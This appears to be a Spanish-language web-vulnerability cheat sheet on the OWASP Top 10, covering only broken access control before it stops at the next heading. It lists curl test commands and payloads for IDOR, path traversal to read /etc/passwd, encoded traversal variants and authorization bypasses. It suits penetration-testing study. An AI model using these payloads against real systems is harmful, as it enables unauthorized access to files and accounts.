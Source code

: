 # 🔐 CHEATSHEET DE VULNERABILIDADES WEB

## **📋 OWASP TOP 10 2021**

### **1. Broken Access Control (A01:2021)**

#### **Descripción**
Control de acceso defectuoso que permite a usuarios actuar fuera de permisos.

#### **Tipos Comunes**
- **IDOR (Insecure Direct Object Reference)**
- **Path Traversal**
- **Privilege Escalation**
- **Missing Access Control**

#### **Detección Manual**
```bash
# Test IDOR básico
curl -H "Cookie: session=user_token" http://target/user/profile?id=1234
curl -H "Cookie: session=user_token" http://target/user/profile?id=1235

# Test Path Traversal
curl "http://target/download?file=../../../etc/passwd"
curl "http://target/download?file=....//....//etc/passwd"

# Test función admin sin autenticación
curl http://target/admin/users
curl http://target/admin/delete?id=123
```

#### **Payloads de Prueba**
```
# IDOR
/user/1 -> /user/2
/account/123 -> /account/124
/order/abc -> /order/xyz

# Path Traversal
../../../etc/passwd
....//....//etc/passwd
..%2f..%2f..%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd

# Bypass de autorización
/admin/../user/panel
/admin%2f../user/panel
```

### **2. Cryptographic Failures (A02:2021)**
